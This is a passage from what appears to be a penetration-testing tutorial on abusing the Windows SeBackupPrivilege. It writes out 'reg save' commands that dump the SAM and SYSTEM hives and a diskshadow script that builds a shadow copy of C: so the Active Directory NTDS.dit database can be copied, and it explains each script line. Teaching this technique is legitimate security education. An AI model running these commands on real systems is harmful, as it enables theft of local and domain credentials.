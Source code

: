 Subsequently, we can use abuse `SeBackupPrivilege` by copying the `SAM` & `SYSTEM` registry hives to extract local accounts credentials:

#### Backing up the SAM and SYSTEM Hives

```cmd-session
C:\Tools> reg save hklm\sam C:\users\Public\sam && reg save hklm\system C:\users\Public\system

The operation completed successfully.
The operation completed successfully.

```

Because we are working with Active Directory, we also need its database, [NTDS.dit](https://windowstechno.com/what-is-ntds-dit/). To get it, we need to create a [Shadow Copy](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) because the operating system uses the Active Directory database. The shadow copy will create a copy of the selected disk, and we will take the database from that copy.

[Diskshadow.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) is a tool that exposes the functionality of the `Volume Shadow Copy Service` ( `VSS`). We will use a [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script to create the shadow copy:

#### Create a File with the Commands Required to Execute diskshadow

```cmd-session
C:\Tools> more C:\Users\Public\diskshadowscript.txt

set context persistent nowriters
set metadata c:\windows\temp\file.cab
set verbose on
begin backup
add volume c: alias mydrive

create

expose %mydrive% p:
end backup

```

The script performs a backup, creates a persistent shadow copy of the `C:` volume (the system drive) on Windows, and assigns it a drive letter `p`, which can be accessed for backup or recovery purposes. Here is a breakdown of the commands:

- `set context persistent nowriters`: This sets the context for the shadow copy to be persistent (so it can be accessed after the backup) and specifies that no writers should be used. This is useful for creating a live system backup without interfering with running applications or services.
- `set metadata c:\windows\temp\file.cab`: Sets the location for the metadata of the shadow copy to be saved. This includes all information associated with the shadow copy that describes its state and contents.
- `set verbose on`: This enables verbose output for debugging purposes.
- `begin backup`: This starts the backup process.
- `add volume c: alias mydrive`: This adds the `C:` volume to the backup and assigns it an alias named "mydrive".
- `create`: This creates a shadow copy of the selected volume.
- `expose %mydrive% p:`: This assigns the shadow copy to the drive letter `P:`. The original drive letter of the selected volume may differ from `C:` therefore, this command ensures that the backup is accessible as a drive letter.
- `end backup`: This ends the backup process.
